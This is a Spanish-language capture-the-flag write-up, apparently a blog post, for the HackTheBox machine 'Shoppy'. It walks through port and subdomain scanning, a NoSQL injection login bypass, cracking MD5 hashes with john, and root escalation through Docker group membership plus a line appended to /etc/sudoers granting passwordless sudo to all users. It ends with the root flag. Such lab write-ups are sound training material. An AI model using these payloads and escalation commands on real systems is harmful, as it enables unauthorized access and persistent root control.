 ```yaml
---
layout: single
title: Shoppy - HackTheBox
excerpt: " Shoppy was one of the easier HackTheBox weekly machines to exploit, though identifying the exploits for the initial foothold could be a bit tricky. "
date: 2022-12-25
classes: wide
header:
  teaser: /blog/assets/images/htb-writeup-shoppy/shoppy.png
  teaser_home_page: true
  icon: /blog/assets/images/htb.webp
categories:
  - hackthebox
tags:  
  - nosql
  - mongodb
  - subdomain
  - docker
---
```


Shoppy was one of the easier HackTheBox weekly machines to exploit, though identifying the exploits for the initial foothold could be a bit tricky.

# # Summary
- IP: 10.10.11.180
- Ports: 22,80,9093,
- OS: Linux (Ubuntu)
- Services & Applications:
	-  22 -> OpenSSH 8.4p1 Debian 5+deb11u1
	-  80 -> nginx 1.23.1
	-  9093 -> copycat?

# Recon
- Reconocimiento básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

``` bash
$sudo nmap -p22,80,9093 -sCV 10.10.116.216 -oN targeted
``` 

- Análisis de directorios web con gobuster:

$sudo gobuster dir -u shoppy.htb -w /home/dante/SecLists/Discovery/Web-Content/common.txt

- Nos encontramos con un directorio "login" el cual nos despliega una ventana de logeo, al no poseer credenciales intentamos inyectar payload nosql:

```
admin'||'1==1
```

- Accedemos a la web de shoppy, en la que encontramos un buscador de usuarios, insertamos de nuevo el mismo payload que inyectamos anteriormente y nos arroja un archivo json con dos usuarios y credenciales hasheadas.

- Intentamos romper los hashes con john:

$sudo john -w:/home/dante/SecLists/Passwords/Leaked-Databases/rockyou.txt hash --format=Raw-MD5

- Encontramos la crendencial de "josh" pero por ahora no nos sirve; buscamos subdominios de "shoppy.htb":

```bash
$sudo gobuster vhost -w /home/dante/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 100 -u shoppy.htb
```

- Encontramos "mattermost.shoppy.htb" accedemos y en la web depslegada al analizar encontramos una conversación privada en la que hay credenciales, ingresamos por SSH como el usuario jaeger y encontramos la user flag.


# ESCALANDO PRIVILEGIOS:


- Al hacer sudo -l vemos que podemos ejecutar el binario "password-manager" como el usuario "deploy", lo hacemos:

```bash
$sudo su -u deploy ./password-manager
```

- Pero nos pide una contraseña maestra; hacemos cat al binario y encontramos una crendencial, la probamos y nos despliega las credenciales del usuario "deploy":

```bash
cat password-manager
```

- Accedemos por SSH como "deploy" y nos damos cuenta que pertenecemos al grupo "docker", haciendo una búsqueda en gtfobins encontramos una forma de ser root con esta información, que consiste en montar la raiz de la máquina en un contenedor y por medio de una montura tener acceso como root dentro del contenedor:

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

- Aquí podemos encontrar la root flag, sin embargo aún no tenemos la máquina ocmpletamente vulnerada, pues estamos dentro de un contenedor, para tener acceso completo aprovechamos que estamos en la raíz de la máquina original y modificamos el archivo de sudoers:

```bash
echo 'ALL ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
```

- Con el archivo ya modificado podemos salir del contenedor con el comando "exit" y comprobamos que podemos ejecutar sudo como cualquier usuario con sudo -l; hacemos "sudo su" y estaremos como root con acceso completo.

# ROOT FLAG: c03008085c5a5a10634d7b6c0de88bb5
